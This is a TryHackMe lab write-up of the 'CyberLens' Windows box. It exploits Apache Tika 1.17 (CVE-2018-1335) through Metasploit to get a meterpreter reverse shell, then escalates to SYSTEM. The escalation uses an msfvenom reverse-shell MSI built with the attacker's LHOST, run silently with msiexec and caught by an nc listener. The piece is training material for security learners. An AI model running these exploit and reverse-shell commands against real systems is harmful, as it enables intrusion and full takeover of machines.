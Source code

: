 # CyberLens Writeup - TryHackMe

CyberLens is an easy level boot2root machine available on TryHackMe. This box is a Windows machine with a vulnerable web application. The goal is to exploit the web application to get a reverse shell and then escalate privileges to get the root flag.

### Table of Contents
1. [Enumeration](#enumeration)
2. [Web Application](#web-application)
3. [Apache Tika](#apache-tika)
4. [Exploitation](#exploitation)
5. [Privilege Escalation](#privilege-escalation)

## Enumeration

As I always do, start with a port scan to identify the open ports and services running on the target machine.

```bash
PORT      STATE SERVICE       REASON  VERSION
80/tcp    open  http          syn-ack Apache httpd 2.4.57 ((Win64))
|_http-server-header: Apache/2.4.57 (Win64)
| http-methods: 
|   Supported Methods: GET POST OPTIONS HEAD TRACE
|_  Potentially risky methods: TRACE
|_http-title: CyberLens: Unveiling the Hidden Matrix
135/tcp   open  msrpc         syn-ack Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds? syn-ack
5985/tcp  open  http          syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
7680/tcp  open  pando-pub?    syn-ack
47001/tcp open  http          syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open  msrpc         syn-ack Microsoft Windows RPC
49665/tcp open  msrpc         syn-ack Microsoft Windows RPC
49666/tcp open  msrpc         syn-ack Microsoft Windows RPC
49667/tcp open  msrpc         syn-ack Microsoft Windows RPC
49668/tcp open  msrpc         syn-ack Microsoft Windows RPC
49669/tcp open  msrpc         syn-ack Microsoft Windows RPC
49670/tcp open  msrpc         syn-ack Microsoft Windows RPC
49677/tcp open  msrpc         syn-ack Microsoft Windows RPC
61777/tcp open  http          syn-ack Jetty 8.y.z-SNAPSHOT
| http-methods: 
|   Supported Methods: POST GET PUT OPTIONS HEAD
|_  Potentially risky methods: PUT
|_http-title: Welcome to the Apache Tika 1.17 Server
|_http-cors: HEAD GET
|_http-server-header: Jetty(8.y.z-SNAPSHOT)
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2024-05-26T13:24:02
|_  start_date: N/A
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 3604/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 39742/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 15440/udp): CLEAN (Failed to receive data)
|   Check 4 (port 45802/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
|_clock-skew: 0s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
```

From the scan, we can see that the target machine is running a web server on port 80 and 61777. Let's start by visiting the web server on port 80.

## Web Application

![CyberLens](https://cdn.sarperavci.com/4e94247f/2f6c81.png)

It's a simple metadata extraction tool. We can upload a file and it will extract the metadata from the file. However, that's not useful for us. So that's why I peeked at the other web server running on port 61777.

## Apache Tika

![Apache Tika](https://cdn.sarperavci.com/9c68b9ef/4246dc.png)

Apache Tika version 1.17 is running on this server. It's vulnerable to CVE-2018-1335, which allows remote code execution. Luckily, there is a Metasploit module available for this vulnerability.

## Exploitation

![Metasploit](https://cdn.sarperavci.com/67f4ab4f/ecf4f2.png)

Once the exploit is run, I got a meterpreter shell.


```bash
msf6 exploit(windows/http/apache_tika_jp2_jscript) > run

[*] Started reverse TCP handler on 10.9.1.193:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable.
[*] Sending PUT request to 10.10.135.152:61777/meta
[*] Command Stager progress -   8.10% done (7999/98798 bytes)
[*] Sending PUT request to 10.10.135.152:61777/meta
[*] Command Stager progress -  16.19% done (15998/98798 bytes)
[*] Sending PUT request to 10.10.135.152:61777/meta
[*] Command Stager progress -  24.29% done (23997/98798 bytes)
[*] Sending PUT request to 10.10.135.152:61777/meta
[*] Command Stager progress -  32.39% done (31996/98798 bytes)
[*] Sending PUT request to 10.10.135.152:61777/meta
[*] Command Stager progress -  40.48% done (39995/98798 bytes)
[*] Sending PUT request to 10.10.135.152:61777/meta
[*] Command Stager progress -  48.58% done (47994/98798 bytes)
[*] Sending PUT request to 10.10.135.152:61777/meta
[*] Command Stager progress -  56.67% done (55993/98798 bytes)
[*] Sending PUT request to 10.10.135.152:61777/meta
[*] Command Stager progress -  64.77% done (63992/98798 bytes)
[*] Sending PUT request to 10.10.135.152:61777/meta
[*] Command Stager progress -  72.87% done (71991/98798 bytes)
[*] Sending PUT request to 10.10.135.152:61777/meta
[*] Command Stager progress -  80.96% done (79990/98798 bytes)
[*] Sending PUT request to 10.10.135.152:61777/meta
[*] Command Stager progress -  89.06% done (87989/98798 bytes)
[*] Sending PUT request to 10.10.135.152:61777/meta
[*] Command Stager progress -  97.16% done (95988/98798 bytes)
[*] Sending PUT request to 10.10.135.152:61777/meta
[*] Command Stager progress - 100.00% done (98798/98798 bytes)
[*] Sending stage (176198 bytes) to 10.10.135.152
[*] Meterpreter session 1 opened (10.9.1.193:4444 -> 10.10.135.152:49862) at 2024-05-26 09:56:41 -0400

meterpreter > 
```

## Privilege Escalation

After getting the meterpreter shell, I downloaded `PrivescCheck.ps1` to automate the privilege escalation process.

```bash
meterpreter > cd %temp%
meterpreter > upload PrivescCheck.ps1
[*] Uploading  : /home/kali/Desktop/PrivescCheck.ps1 -> PrivescCheck.ps1
[*] Uploaded 161.87 KiB of 161.87 KiB (100.0%): /home/kali/Desktop/PrivescCheck.ps1 -> PrivescCheck.ps1
[*] Completed  : /home/kali/Desktop/PrivescCheck.ps1 -> PrivescCheck.ps1
```

After I run the script, I found that it's likely to escalate privileges using the `AlwaysInstallElevated` registry key.


```bash
????????????????????????????????????????????????????????????????
?                 ~~~ PrivescCheck Summary ~~~                 ?
????????????????????????????????????????????????????????????????
 TA0003 - Persistence
 - UEFI & Secure Boot ▒ Low
 TA0004 - Privilege Escalation
 - AlwaysInstallElevated ▒ High
 - Driver co-installers ▒ Low
 - Latest updates installed ▒ Medium
 TA0006 - Credential Access
 - LSA Protection ▒ Low
 - Credential Guard ▒ Low
 TA0008 - Lateral Movement
 - UAC settings ▒ Low
 - LAPS ▒ Medium
 ```

`AlwaysInstallElevated` allows non-administrative users to install .msi packages with elevated privileges.

I created a suspicious .msi package locally:

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.9.1.193 LPORT=8282 -a x64 --platform Windows -f msi -o evil.msi
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of msi file: 159744 bytes
Saved as: evil.msi

```

Then I uploaded the `evil.msi` file to the target machine and executed it.

```bash
meterpreter > shell
Process 3940 created.
Channel 6 created.
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Users\CYBERL~1\AppData\Local\Temp\1>msiexec /quiet /qn /i evil.msi
```

After executing the .msi package, I got a reverse shell as `NT AUTHORITY\SYSTEM`.

```cmd
┌──(kali㉿kali)-[~/Desktop]
└─$ nc -nlvp 8282
listening on [any] 8282 ...
connect to [10.9.1.193] from (UNKNOWN) [10.10.68.65] 49843
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
nt authority\system
```

What a fun box! I hope you enjoyed the writeup. Thanks for reading!




